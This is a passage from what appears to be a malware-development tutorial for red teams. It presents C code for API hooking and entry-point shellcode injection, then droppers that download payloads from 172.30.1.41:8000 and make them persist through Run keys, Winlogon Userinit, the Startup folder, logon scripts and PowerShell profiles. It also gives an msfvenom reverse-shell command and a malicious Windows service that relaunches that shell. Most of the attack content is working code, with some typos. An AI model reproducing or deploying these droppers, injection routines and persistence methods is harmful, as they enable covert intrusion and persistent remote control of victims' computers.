hookedFuncAddr = GetProcAddress(hLib, "Movie");
if(hokedFuncAddr = NULL){
printf("Failed to get `Movie` address.\n");
return 0;
}
ReadProcessMemory(GetCurrentProcess(), (LPVOID)hookedFuncAddr, origBytes, 14, NULL);
VirtualProtect((LPVOID)hookedFuncAddr, 14, PAGE_READWRITE, &oldProtect);
hookFuncAddr = (UINT_PTR)&modMovFunc;
memcpy(patch, jmpinstruction, 6);
memcpy(patch+6, &hokFuncAddr, 8);
WriteProcessMemory(GetCurrentProcess(), (LPVOIDhookedFuncAddr, patch, 14, NULL);
VirtualProtect((LPVOID)hookedFuncAddr, 14, oldProtect, &oldProtect);
FlushInstructionCache(GetCurrentProcess(), (LPVOID)hookedFuncAddr, 14);
}
int main() {
HINSTANCE entDll;
OrigMovFunc origMovFunc;
entDll = LoadLibrary("entertainmentDll.dll");
if(entDll == NULL){
return 1;
}
origMovFunc = (OrigMovFunc)GetProcAddress(entDll, "Movie");
if (origMovFunc == NULL){
return 1;
}
(origMovFunc)("Spider-Man: Across the Spider-Verse");
installhook();
(origMovFunc)("Spider-Man: Across the Spider-Verse");
return 0;
}
Here's a breakdown of what happened:
typedef int (__cdecl OrigMovFunc): Creates an alias,OrigMovFunc, for a function signature, allowing equivalent functions to be declared, defined, or referenced using that alias.void installHook(){...}: A buffer is allocated for the 14-byte patch (our hook) inside theMoviefunction. The full, 6-byteJMPinstruction opcode is written as a list of character codes. A 64-bit pointer is created to reference the modifiedMoviefunction, our hook function. Then, the first 14 bytes of the target function are saved and this memory space is made writable (RW). TheJMPinstruction and the 8 byte absolute address of the hook function are written into the beginning of the hooked function. Then, the permissions are reverted (RX) and the instruction cache is flushed.ReadProcessMemory: Copies a specified block of memory from the address space of a designated process, into a buffer in the current process's address space. Requires having thePROCESS_VM_READaccess right to the target process. It is a core component of the Windows API used to inspect the memory contents of a running application.
Here is a breakdown of theBOOL ReadProcessMemory( [in] HANDLE hProcess, [in] LPCVOID lpBaseAddress, [out] LPVOID lpBuffer, [in] SIZE_T nSize, [out] SIZE_T *lpNmberofBytesRead );ReadProcessMemoryfunction's parameters:hProcess: Handle to the target process whose memory is to be read. Must have thePROESS_VM_READaccess right.lpBaseAddress: The base virtual address in the target process from which the read operation should begin.lpBuffer: A pointer to a buffer in the calling process's address space. The data read from the target process will be copied here.nSize: The number of bytes to be copied from the target process's memory into your local buffer.lpNumberOfBytesRead: An optional pointer to a variable that receives the actual number of bytes transferred into the local buffer. This can be less thannSizeif the memory read fails partway through. IfNULLit is ignored.ReadProcessMemoryreturnsTRUEis successful,FALSEif failure. UseGetLastError()to get more information.
int __stdcall modMovFunc (LPCTSTR message){...}: The first 14 bytes of the hooked function are made writable, the original instruction bytes are written into that space and the permissions are reverted (RX). Then, the instruction cache is flushed and the originalMoviefunction is called with a new parameter, "Everything, Everywhere, All At Once".FlushInstructionCache: An essential Windows API that synchronizes the contents of the CPUs instruction cache and any non coherent caches with the contents of memory. FOrces the CPU to discard its stale cache entries and re-read the instructions from memory, guaranteeing that newly written code is executed immediately.
Here is a breakdown of theBOOL FlushInstructionCache( [in] HANDLE hProcess, [in] LPCVOID lpBaseAddress, [in] SIZE_T dwSize );FlushInstructionCachefunction's parameters:hProcess: A handle to the process whose instruction cache is to be flushed.lpBaseAddress: the base address in the target process where the modified region begins.NULLto flush entire cache.dwSize: Size, in bytes, of the instruction region to be flushed.
int main(){...}: LoadsentDll, then runs the originalMoviefunction. Next, the hook is installed and the originalMoviefunction is called again.
Process Hollowing
'Process Hollowing' is an attack method where an adversary starts a legitimate, benign process in a suspended state and then completely replaces its executable code with malicious content. The goal is for the malicious code to run under the guise and context of a legitimate process, making it much harder for security software and analysts to identify the true nature of the running program. There are 6 Core Steps to process hollowing:
- Creation of the Suspended Target Process: The injector uses the
CreateProcessAPI with theCREATE_SUSPENDEDflag to start with a new legitimate host process, but immediately freezes its main thread, preventing the host form executing its original code - Hollowing the Process: The injector analyzes the suspended process's memory to find it's Image Base Address. It then uses
NtUnmapViewOfSectionor a similar function to unmap the legitimate PE file from the process's memory space, leaving a large chunk of hollowed, unallocated memory. - Allocating Space for the Malicious Image: The injector allocates new memory space inside the hollowed process using
VirtualAllocExat the same preferred Image Base Address, or at least the same sized region, as the original executable. - Writing the Malicious Image: The injector writes the sections (i.e.,
.textor.data) of the malicious PE file into the newly allocated memory space within the target process usingWriteProcessMemory. - Redirecting the Execution Flow: The injector modifies
RAX/EAXof the suspended thread's context to point to the Entry Point of the newly injected malicious PE usingGetThreadContextandSetThreadContext. - Resuming Execution: The injector calls
ResumeThread, jumping directly to the entry point of the malicious code while still appearing in the operating system as a legitimate process.
Entry Point Overwriting is a simplified form of Process Hollowing that only hollows out the entry point with shellcode, without unmapping anything else. Here is an example:
#include <windows.h>
#include <winternl.h>
#include <stdio.h>
int main() {
ULONG returnLength;
DWORD oldProtect;
PVOID baseAddress;
SIZE_T bytesRead;
SIZE_T bytesWritten;
unsigned char payload[] =
"\xfc\x48\x83..."
[...trunc...]
"...\xda\xff\xd5";
STARTUPINFOW si = {0};
PROCESS_INFORMATION pi = {0};
IMAGE_DOS_HEADER dHeader = {0};
IMAGE_NT_HEADERS ntHeaders = {0};
si.cb = sizeof(si);
si.dwFlags = STARTF_USESHOWWINDOW;
CreateProcessW(
L"C:\\Windows\\System32\\cmd.exe",
NULL, NULL, NULL, FALSE,
CREATE_SUSPENDED,
NULL,
L"C:\\Windows\\System32", &si, &pi
);
NtQueryInformationProcess(
pi.hProcess,
ProcessBasicInformation,
&pbi,
sizeoff(pbi),
&returnLength
);
auto lpBaseAddress = (LPVOID)((DWORD64)(pbi.PebBaseAddress) + 0x10);
baseAddress = 0;
bytesRead = 0;
ReadProcessMemory(
pi.hProcess,
baseAddress,
&dHeader,
sizeof(dHeader),
&bytesRead
);
auto lpNtHeader = (LPVOID)((DWORD64)baseAddress + dHeader.e_lfanew);
ReadProcessMemory(
pi.hProcess,
lpNtHeader,
&ntHeaders,
sizeof(ntHeaders),
&bytesRead
);
auto entryPoint = (LPVOID)((DWORD64)baseAddress + ntHeaders.OptionalHeader.AddressOfEntryPoint);
VirtualProtectEx(
pi.hProcess,
entryPoint,
sizeof(payload),
PAGE_READWRITE,
&oldProtect
);
WriteProcessMemory(
pi.hProcess,
entryPoint,
payload,
sizeof(payload),
&bytesWritten
);
VirtualProtectEx(
pi.hProcess,
entryPoint,
sizeof(payload),
oldProtect,
&oldProtect
);
}
Where:
-
NtQueryInformationProcess: A Native API function in the Windows kernel, used to retrieve various pieces of non-public, specific information about a process object. Helps gather insights into a running process's state, environment and security context.- Acts as a versatile internal query tool for the kernel's Object Manager. It takes a Process Handle and an information class, and fills a buffer with requested data, including:
Process Basic Information: The entry point address, Process ID, Parent Process ID and the base address of the Process Environment Block (PEB).Process Image Filename: The full path to the executable file.Process Breakpoints: Information about breakpoints set within the processProcess Security: Details about the process's token and integrity level.
__NTSYSAPI NTSTATUS NTAPI NtQueryInformationProcess( [in] HANDLE ProcessHandle, [in] PROCESS_INFORMATION_CLASS ProcessInformationClass, [out] PVOID ProcessInformation, [in] ULONG ProcessInformationLength, [out, optional] PULONG ReturnLength )Here is a breakdown of the
NtQueryInformationProcessfunction's parameters:ProcessHandle: A handle to the process about which information is being requested. This handle must have the appropriate access rights (i.e.,PROCESS_QUERY_INFORMATION).ProcessInformationClass: A value from the enumeration that specifies the exact type of information to retrieve.ProcessBasicInformation: Gets aPROCESS_BASIC_INFORMATIONstructure, which contains essential process details like the exit status, the base address of the PEB, the Process ID, and the Parent Process ID.ProcessImageFileName: Retrieves the full path and file name of the executable image for the process.ProcessWow64Information: Used on 64-bit systems to determine if a process is a 32-bit application running under the WoW64 compatability layer.ProcessSessionInformation: Gets the Terminal Services Session ID, needed to manage or communicate with processes across different user sessions.ProcessDebugPort: Gets the debug port number, used by debuggers to check if a process is being debugged.ProcessHandleCount: Used to get the number of open handles currently owned by the process.ProcessQuotaLimits: Gathers information about a process's page file usage, working set size limits, etc. to monitor and manage process resource consumption.
ProcessInformation: A pointer to a buffer that receives the requested process information, formatted based on theProcessInformationClass.ProcessInformationLength: The size, in bytes of the output buffer pointed to byProcessInformation.ReturnLength: An optional pointer to a variable that receives the actual size, in bytes of the information returned in the buffer.
NtQueryInformationProcessreturns anNTSTATUSvalue.STATUS_SUCCESSindicates the operation completed successfully. - Acts as a versatile internal query tool for the kernel's Object Manager. It takes a Process Handle and an information class, and fills a buffer with requested data, including:
-
auto: An instruction inC++, which tells the compiler to automatically deduce the data type of the variable from the type of its initializer. -
IMAGE_DOS_HEADER: A data type which is used to create a structure representing the legacy header found at the very start of a PE file. -
IMAGE_NT_HEADERS: The primary entry point for the modern Windows Operating System loader, located at the file offset value specified by thee_lfanewfield of the proceedingIMAGE_DOS_HEADER. -
VirtualProtectEx: A fundamental function in the Windows Memory management PAI, used to change the protection attributes of a region of memory within the address space of a specified process. It is exported bykernel32.dll.BOOL VirtualProtectEx( [in] HANDLE hProcess, [in] LPVOID lpAddress, [in] SIZE_T dwSize, [in] DWORD flNewProtect, [out] PDWORD lpflOldProtect );Here is a breakdown of the
VirtualProtectExfunction's parameters:hProcess: A handle to the target process whose memory protection is to be changed. The handle must have thePROCESS_VM_OPERATIONaccess right.lpAddress: The base address of the region of memory pages whose protection attributes are to be changed.dwSize: The size, in bytes of the region whose protection attributes are to be changed. The region is extended to encompass all memory pages in the range.flNewProtect: The new memory protection options (i.e.,PAGE_EXECUTE_READ)lpflOldProtect: A pointer to a variable that receives the previous protection attributes of the first page in the specified region. This is essential for restoring permissions later.
Conclusion
Malware generally describes any software designed to facilitate malicious actions on a computer system. Fundamentally, it takes advantage of vulnerabilities identified by a developer, which allow them to access accounts, gather data, and/or manipulate access to programs and services. Typically, some form of communication channel is established between a remote, target machine and the machine the attack was initialized from, such as a reverse shell, which manages communication between the two machines, allowing the transmission of instructions and data at each end. Malware development plays a very important role in managing Red Team Operations. Even though there are tools that exist which can automatically generate payloads of many forms, understanding the low-level functions and configurations of these payloads significantly contributes to whether or not the payload can actually be downloaded and run on a target system.
Malware Persistence
Malware persistence allows you to continue an operation, even after a system is restarted or the target user logs off. Here, we will discuss some of the classic ways malware persists on Windows systems. However, classic methods are known, so we will also review some techniques for identifying new persistence methods.
Utilizing the Windows User Logon Process for Persistence
Previously, when we reviewed the Windows Boot-Up Process, there was a discussion about winlogon.exe and explorer.exe. These two executables play a vital role in the Windows User Logon Process, as they are responsible for setting up the user environment and initializing the GUI. Once the user authenticates against the Local Security Authority Subsystem Service (LSASS) and their access token has been created, winlogon.exe launches userinit.exe, the first user-mode application. It is directly responsible for setting up the user environment, following these steps in order:
- Launch Applications in the RunOnce Registry
- Apply Group Policy Settings and Run Synchronous Logon Scripts
- Load the User Profiles from
NTUSER.DAT, including environment variables (HKCU\Environment) - Execute Legacy Logon Scripts in
UserInitMprLogonScript - Read
Shellvalue fromHKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell(usuallyexplorer.exe), then launch
If explorer.exe is launched as the shell, it takes over the task or running the remaining auto-start items asynchronously. This being:
- The Standard
RunRegistry Keys - The Startup Folder
The Windows User Logon Process is ripe with spaces to save malware for persistence. In this section, we will review a few methods that can be used.
Registry Run Keys
We previously went over the Run and RunOnce registry keys. Any entry located in these registries will result in the automatic execution of the associated application once the user logs in. This is extremely convenient for malware persistence, as a new key, placed in the right entry, will ensure your payload remains on the system so there's no need to exploit the system again.
Here is a basic example:
// hack c
#include <windows.h>
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow){
MessageBoxA(NULL, "You Have Been Hacked!", ">:)", MB_OK);
return 0;
}
This is our payload, and is responsible for conducting the malicious activity. Now this program does not inherently persist on the target. The functionality can be added directly to the program, but that increases the detection surface of the payload. Instead, we can create a new file to perform the persistence function.
While there are a variety of techniques that can be used to solve this problem, at this stage in our learning, a dropper will suffice. Basically, a dropper is a program that downloads/installs one or more payloads, to a host, then typically sets up some form of persistence. In our example, it can be considered a downloader+dropper, since the dropper does not contain the payload and instead downloads it from a web server:
// dropper.c
#include <windows.h>
int main(int argc, char* argv[]){
HKEY hKey = NULL;
const char* exe_path = "\\\%USERPROFILE\%\\hack.exe"
HRESULT downloadedFile = URL DownloadToFile(NULL, "http://172.30.1.41:8000/hack.exe", exe_path, 0, NULL);
long result = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_WRITE, &hKey);
if(result == ERROR_SUCCESS){
RegSetValueEx(hKey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)exe_path, strlen(exe_path));
RegCloseKey(hKey);
}
return 0;
}
Where:
HKEY: A handle to a specific key in the Windows Registry.URLDownloadToFile: A core Windows API function used to download data from a specified URL and save it directly to a local file. Part of the URL Moniker (urlmon.h) library, which is integrated with the Windows Shell and Internet Explorer network stack.
Here is a breakdown or theHRESULT URLDownloadToFile( [in] LPUNKNOWN pCaller, [in] LPCTSTR szURL, [in] LPCTSTR szFileName, [in] DWORD dwReserved, [in] LPBINDSTATUSCALLBACK lpfnCB );URLDOwnloadToFilefunction's parameters:pCaller: A pointer to the calling object'sIUNKNOWNinterface. This is typically used for COM object handling. Set to 'NULL' for simple, non-COM based downloads.szURL: A pointer to a null-terminated string containing the URL from which to download the file.szFileName: A pointer to a null-terminated string specifying the path and filename where the downloaded data will be saved.dwReserved: Reserved for future use by Microsoft. Must be set to 0.lpfnCB: A pointer to the client'slBindStatusCallbackinterface. This interface allows the caller to receive progress updates, cancel the download, or receive status notifications during the transfer. Usually set toNULLfor a synchronous download without progress tracking.URLDownloadToFilereturns anHRESULTvalue.S_OKindicates success. Any other value indicates an error (i.e., network failure, file write permission issues).
RegOpenKeyEx: A Windows API function used to obtain a handle (HKEY) to an existing key, which can then be used by other functions (i.e.,RegQueryValueEx,RegSetValueEx, etc.) to read or modify the key's values and subkeys.
Here is a breakdown of theLONG RegOpenKeyEx( [in] HKEY hKey, [in, optional] LPCWSTR lpSubKey, [in] DWORD ulOptions, [in] REGSAM samDesired, [out] PHKEY phkResult );RegOpenKeyExfunctions' parameters:hKey: A handle to an already open key or one of the predefined root keys (i.e.,HKEY_LOCAL_MACHINE)lpSubKey: The name of the subkey to be opened relative to the key specified by hKey. Must be a null-terminated Unicode string (i.e.,L"Software\\Microsoft").ulOptions: Reserved for future use. Must be set to 0.samDesired: A mask that specifies the access rights needed for the key (i.e., read, write, delete). Dictates what operations you are allowed to perform on the key:KEY_READ: Required for querying key values and subkey data.KEY_SET_VALUE: Required for writing new values or modifying existing ones.KEY_ALL_ACCESS: Requests all possible access rights. Generally discouraged for security reasons. Request only the permissions needed.KEY_WOW64_32KEYorKEY_WOW64_64KEY: Used in 32-bit applications running on 64-bit Windows systems (WOW64) to explicitly specify which registry view to access.
phkResult: A pointer to an HKEY variable that receives the handle to the opened subkey upon success.RegOpenKeyExreturns a LONG value. If the function succeeded, the return value isERROR_SUCCESS(0). Upon failure, the return value is a non-zero error code (i.e.ERROR_FILE_NOT_FOUND).
RegSetValueEx: A Windows API function used to set the data and type for a specified value within an open registry key.
Here is a breakdown of theLONG RegSetValueEx( [in] HKEY hKey, [in, optional] LPCWSTR lpValueName, );RegSetValueExfunction's parameters:hKey: A handle to an open registry key. This handle must have been oped with theKEY_SET_VALUEaccess right.lpValueName: The name of the value to be set or created. Must be a null-terminated Unicode string.Reserved: Reserved for future use. Must be set to 0.dwType: The type of data to be stored. This is crucial for how the data is interpreted by the system. Common types includeREG_SZ(string) andREG_DWORD(32-bit number).lpData: A pointer to the data buffer that contains the actual data to be stored. The format must match thedwType.cbData: The size, in bytes of the data pointed to bylpData. Must include all bytes, including null-terminators.RegSetValueExreturns a LONG value,ERROR_SUCCESS(0) on success. Non-zero value upon failure.
RegCloseKey: A Windows API function used to receive the handle to a specified open registry key. A critical cleanup function as failing to close anHKEYhandle can lead to resource leaks, and in some cases, can prevent the registry key from being modified or deleted by other processes.
Here is a breakdown of theLONG RegCloseKey( [in] HKEY hKey );RegCloseKeyfunction's parameters:hKey: A handle to the open registry key that you want to close. This handle is invalidated after the function returns successfully and should not be used again.RegCloseKeyreturns a LONG value,ERROR_SUCCESSif successful. Non-zero value upon failure.
This dropper must be run with Administrator (elevated) privileges on Windows 10+ since, be default, Administrator/User accounts do not have a high enough integrity level (High Integrity Level or greater is required).
The Winlogon Process
Winlogon.exe manages user logon and logoff operations, managing system starting and shutdown procedures, as well as implementing screen locking functionality. It uses the following Registry Keys for different purposes:
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell: Tells Windows which program to start after a user has logged on. The specified executable becomes the user's shell, meaning every logon session will launch that program instead ofexplorer.exe, unless the custom program explicitly starts Explorer itself.HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlong\Userinit: Specifies the program(s) that run immediately after credential validation, before the shell is started. Pointing the entry value to a different executable (or a comma-separated list such asmyinit.exe,userinit.exe) lets you execute custom code at logon-used for legitimate startup tasks, or in malicious contexts, persistence.
These Registry keys are only readable by a user with a Medium Integrity Level or higher. A minimum of a High IL is required to modify them on Windows 10+.
Here is an example of how it works:
// hack.c
#include <windows.h>
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow){
MessageBoxA(NULL, "You have been hacked!", ">:)", MB_OK);
return 0;
}
The modifications made by our dropper to the Userinit registry key will lead to both activation of explorer.exe and hack.exe upon user logon:
// dropper_userinit.c
#include <windows.h>
#include <string.h>
#include <stdio.h>
int main(int argc, char* argv[]){
HKEY hKey = NULL;
const char* sh = "C:\\Windows\\System32\\hack.exe";
const char* exe = "C:\\Windows\\System32\\userinit.exe,C:\\Windows\\System32\\hack.exe";
HRESULT downloadedFile = URLDownloadToFile(NULL, "http://172.30.1.41:8000/hack.exe", sh, 0, NULL);
printf("Running\n");
LONG result = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0, KEY_WRITE, &hKey);
if (result == ERROR_SUCCESS){
RegSetValueEx(
hKey,
(LPCSTR)"Userinit",
0, REG_SZ,
(unsigned char*)exe,
strlen(exe)
);
RegCloseKey(hKey);
printf("Key Written Successfully!\n");
} else {
printf("Something went wrong %d\n", GetLastError());
}
return 0;
}
By default on Windows 10+ systems, modifications to the Winlogon helper can only be performed by authorized administrators.
The Startup Folder
The Startup Folder is a special directory that Windows checks each time a user logs on. Any shortcuts scripts or executable files placed in this folder are automatically launched at logon, allowing programs to start automatically, after explorer.exe is launched. Startup applications can apply to a single user or the system as a whole. These folders are typically located at:
%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup
Where:
%APPDATA%expands toC:\Users\<username>\AppData\Roaming%ProgramDataexpands toC:\ProgramData
When a user logs on, Windows reads the All Users Startup folder first, then the Current User Startup folder. Each item (usually a shortcut .lnk) is executed in the order it appears.
Here is an example of a basic program:
#include <windows.h>
int main() {
HRESULT downloadedFile = URLDownloadToFile(
NULL,
"http://172.30.1.41:8000/hack_cmd.exe",
"C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\hack_cmd.exe",
0,
NULL
);
}
By installing the file directly in the Startup folder, it should launch right after a user logs on, establishing persistence.
UserInitMprLogonScript
UserInitMprLogonScript can be used to store persistent scripts. However it is rare for programs to actually save data here. Usually, the Run/RunOnce registry keys provide better OpSec because they blend in more with normal system activity and are less likely to be flagged by baseline monitoring. This is, however, entirely depended on the defender's diligence in monitoring their networks and systems.
UserInitMprLogonScript scripts can be saved at:
HKCU\Environment\UserInitMprLogonScriptHKLM\Environment\UserInitMprLogonScriptHKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\UserInitMprLogonScript
#include <windows.h>
int main(){
HKEY hKey = NULL;
const char* payload_path = "C:\\Windows\\System32\\hack.exe";
HRESULT downloadedFile = URLDownloadToFile(
NULL,
"http://172.30.1.41:8000/hack.exe",
(LPCSTR)payload_path,
0,
NULL
);
LONG result = RegOpenKeyEx(
HKEY_CURRENT_USER,
(LPCSTR)"Environment",
0,
KEY_WRITE,
&hKey
);
if(result == ERROR_SUCCESS){
RegSetValueEx(
hKey,
(LPCSTR)"UserInitMprLogonScript",
0,
REG_SZ,
(const unsigned char*)payload_path,
strlen(payload_path)
);
RegCloseKey(hKey);
}
return 0;
}
PowerShell Profiles
PowerShell Profiles are acripts that run automatically every time a new PowerShell session starts. They are used to customize the PowerShell environment, allowing you to load specific settings, define aliases, functions and variables, or import modules that you want to be made available in each session automatically.
PowerShell provides an automatic variable named $PROFILE, which stores the path to the current user's/host's profile file, making it easy to locate, create, and modify the profile script(s). The PowerShell execution policy must allow scripts (.ps1) to run for the profile to load automatically. The default Restricted policy on Windows 10+ prevents all scripts, including profiles, from running. This can be checked using the Get-ExecutionPolicy cmdlet or viewing the following Registry keys, in order:
- Machine Policy (Group Policy):
HKLM\Software\Policies\Microsoft\Widows\PowerShell - User Policy (Group Policy):
HKCU\Software\Policies\Microsoft\Windows\PowerShell - LocalMachine (Local Setting):
HKLM\Software\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell - Current User (User Setting):
HKCU\Software\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell - Process (Current Session): Temporary; Does not have a Registry Key Entry. Use (
Get-ExecutionPolicy -scope Process)
In PowerShell, Get-ExecutionPolicy -list will quickly get the values of each of these Execution Policy Scopes, where:
Restricted: Locks down PowerShell so that it operates strictly as an interactive shell, preventing you from running scripts.Unrestricted: Allows all PowerShell scripts to run without any content restrictions, although unsigned scripts from a remote origin will display a warning prompt asking for permission to run.Remote Signed: Allows locally created scripts to run without a signature, but remotely sourced scripts must be signed by a trusted publisher to run.AllSigned: Requires all PowerShell scripts and configuration files, regardless of where they are sourced, to have a valid digital signature from a trusted publisher in order to run.Undefined: A value has not been set for that particular scope, allowing policies from scopes with higher precedence to take effect. If all scopes are undefined, Windows clients default to restricted and Windows Servers default toRemoteSigned.
The order of scope precedence (from highest to lowest) is:
MachinePolicyUserPolicyProcessCurrentUserLocalMachine
PowerShell supports several profile files, depending on the user and the specific host program being run (i.e., the standard console, the Integrated Scripting Environment (ISE) or Visual Studio Code). They are executed in a order, from general to particular, allowing for a layered configuration:
- All Users, All Hosts: Applies to all users and all PowerShell host programs on the computer. Found at
$PSHOME\Profile.ps1. - All Users, Current Host: Applies to all users, but is specific to the current host programs. Found at
$PSHOME\Microsoft.PowerShell_profile.ps1. - Current User, All Hosts: Applies only to the current user but works across all host programs. Found at
$HOME\Documents\WindowsPowerShell\Profile.ps1 - Current User, Current Host: Applies only to the current user and is specific to the current host program (most commonly used). Found at
$HOME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
Note
$HOME: The current user's home directory (i.e., C:\Users\<username>)
PSHOME: The PowerShell installation directory (i.e., C:\Windows\System32\WindowsPowerShell\v1.0)
It is important not to put any code into the profile that will block, because the user will not be presented with an input prompt until the profile script has finished executing. A workaround is to execute the payload via the Start-Job cmdlet.
# Profile.ps1
[void](Start-Job -ScriptBlock {
Add-Type -AssemblyName System.Windows.Forms
[System.Windows.Forms.MessageBox]::Show('You have been hacked!', `>:)`)
})
Where:
-
Add-Type -AssemblyName System.Windows.Forms: Loads the necessary .Net Framework assembly that contains the classes required to interact with Windows GUI elements, like message boxes.Add-Type: cmdlet which loads a .NET class or assembly into the current PowerShell session.AssemblyName: Specifies that a pre-compiled assembly (a DLL) that is part of the .NET Framework will be loaded.System.Windows.Forms: The name of the specific assembly (DLL) being loaded.- This DLL in particular contains classes for creating desktop applications, including controls like buttons, forms, and the static MessageBox class.
-
[System.Windows.Forms.MessageBox]::Show('You have been hacked', '>:)'): A static method call that invokes the Windows API to display a small pup-up window on the user's desktop.[System.Windows.Forms.MessageBox]: Specifies the exact class within the loaded assembly that needs to be used.::: The static member operator in PowerShell. It is used to call a static method (a method belonging to the class itself, not an instance of the class) or access a static property.Show(...): The static method of the MessageBox class that is responsible for opening and displaying the dialog box on the screen.
-
Start-Job -ScriptBlock{...}: PowerShell cmdlet, which starts a new detached PowerShell process (a background job) to execute the code contained within the script block({...}). This allows the main shell session to immediately return a prompt and continue running commands without waiting for the job to finish. -
[void](...): A type-casting operation that ensures that any object returned will be discarded, preventing it from being printed to the console.
A simple dropper can be used to download the script to the right location on the system:
// dropper_profile.c
int main(){
HRESULT downloadedFile = URLDownloadToFile(NULL, "http://172.30.1.41:8000/profile_persistence.ps1", "C:\\Users\\vagrant\\Documents\\WindowsPowerShell\\Profile.ps1", 0, NULL);
}
Note This persistence method requires PowerShell to run before the payload is run. Unless PowerShell is automatically run, you will have to wait for a user to start it before the payload runs. Also, unless the payload is migrated to another process, it will end once PowerShell is closed.
Windows Services
A Windows Service is a specialized program that operates in the background of the Windows operating system, similar to a UNIX daemon. Services run independently of a user session and can be configured to start automatically when the system boots, even before a user logs in. They are essential for managing critical system functions such as network connectivity, hardware, system security, and for automating routine tasks like updates and backups.
By default the ability to create or modify a Windows service typically requires Administrator privileges or the Local System, meaning you need a High or System Integrity Level. To create a new service or modify an existing one's configuration, the calling process must have the necessary access rights to the Service Control Manager (SCM) and the specific service object. A user account must have the SC_MANAGER_CREATE_SERVICE access rights on the SCM to install a new service. By default, only Built-in Administrators have this right. Once installed, the service itself often runs under highly privileged accounts like Local System, Local Service, or Network Service, with each having different levels of permission. The Local System account is the most powerful and has extensive privileges on the local machine.
WIndows services rely on the Windows Registry as their central configuration and database repository. The SCM reads and writes to specific registry keys to determine how and when a service should run. This configuration is primarily stored under HKLM\SYSTEM\CurrentControlSet\Services\<Service Name>. For every installed service, there is a subkey named after the service's short name that contains all of its critical metadata.
The most critical use of the registry is to store the necessary configuration details that the SCM needs to load, start, and manage the service. Key values found in a service's registry subkey include:
ImagePath(REG_EXPAND_SZ): The full path to the service executable file (.exeor.sys). This is the file the SCM executes to start the service.DisplayName(REG_SZ): The user-friendly name that appears in the Services snap-in (services.msc).Start(REG_DWORD): Specifies the startup type for the service including:- Automatic (2)
- Manual/On-Demand (3)
- Disabled (4)
ObjectName(REG_SZ): The account under which the service runs (i.e.,LocalSystem,NetworkService, or a user account)DependOnService(REG_MULTI_SZ): A list of other services that must be running before this service can start.
Individual services also use the registry to store their own internal, non-SCM related configuration and state data, including Custom Settings, Driver Configurations, and the paths for any required Service DLLs. In summary, the registry is the sole location used by the SCM to verify a service's existence, behavior, or core settings, enabling the SCM to reliably manage it from boot-up through its entire lifecycle.
There are many ways a Windows Service can be used to establish persistence on a system. By modifying the ImagePath of a legitimate service in the Windows Registry (specifically under HKLM\SYSTEM\CurrentControlSet\Services\<Service Name>), an adversary can redirect the service to run an arbitrary executable. If the permissions (Access Control List) on a service are misconfigured, a lower-privileged user or process may be able to stop, start, or modify it, allowing an adversary to easily control its execution. Also, if a service loads a Dynamic Link Library from a predictable, poorly secured location, an attacker can replace or place a malicious DLL in said location so it is loaded when the legitimate service starts.
Here, we will observe how an attacker (with adequate privileges) can create a new service that is configured to start automatically when the system boots. By setting the services executable path binPath to their malicious program, the malware will run with high privileges (often SYSTEM) and maintain long-term access.
To start, create a reverse shell executable:
$ msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=172.30.1.41 \
LPORT=4444 -f exe > hack_cmd.exe
The next step is to create a malicious service:
// mal_service.c
#include <windows.h>
#include <stdio.h>
#include <io.h>
#include <time.h>
#define SLEEP_TIME 5000
#define F_OK 0
SERVICE_STATUS serviceStatus;
SERVICE_STATUS_HANDLE hStatus;
STARTUPINFO si;
PROCESS_INFORMATION pi;
HANDLE* phProcess;
void ServiceMain(int argc, char** argv);
void ControlHandler(DWORD request);
int Hack(){
char exe[] = "C:\\Windows\\System32\\hack_cmd.exe";
BOOL fileDoesntExist = _access(exe, F_OK);
if(fileDoesntExist){
HRESULT downloadedFile = URLDownloadToFile(NULL, "http://172.30.1.41:8000/hack_cmd.exe", exe, 0, NULL);
if(downloadedFile){
printf("[Hack->URLDownloadToFile] >>> Hmmm... something went wrong. %d\n", GetLastError());
return -1;
}
}
while(serviceStatus.dwCurrentState == SERVICE_RUNNING){
ZeroMemory(&pi, sizeof(pi));
ZeroMemory(&si, sizeof(si));
si.cb = sizeof(si);
if(CreateProcess(NULL, exe, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi)){
phProcess = &pi.hProcess;
DWORD exitCode;
while(serviceStatus.dwCurrentState == SERVICE_RUNNING){
if(GetExitCodeProcess((HANDLE)*phProcess, &exitCode)){
if(exitCode != STILL_ACTIVE){
CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);
int sleep_time = rand() % (1200001) + 60000;
Sleep(sleep_time);
break;
} else {
Sleep(240000);
}
}
}
} else {
Sleep(60000);
}
}
return 0;
}
int main(){
SERVICE_TABLE_ENTRY ServiceTable[] = {
{"HackService", (LPSERVICE_MAIN_FUNCTION)ServiceMain},
{NULL, NULL}
};
StartServiceCtrlDispatcher(ServiceTable);
return 0;
}
void ServiceMain(int argc, char** argv){
serviceStatus.dwServiceType = SERVICE_WIN32;
serviceStatus.dwCurrentSTate = SERVICE_START_PENDING;
serviceStatus.dwControlsAccepted = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
serviceStatus.dwWin32ExitCode = 0;
serviceStatus.dwServiceSpecificExitCode = 0;
serviceStatus.dwCheckPoint = 0;
serviceStatus.dwWaitHint = 0;
hStatus = RegisteredServiceCtrlHandler("HackService", (LPHANDLER_FUNCTION)ControlHandler);
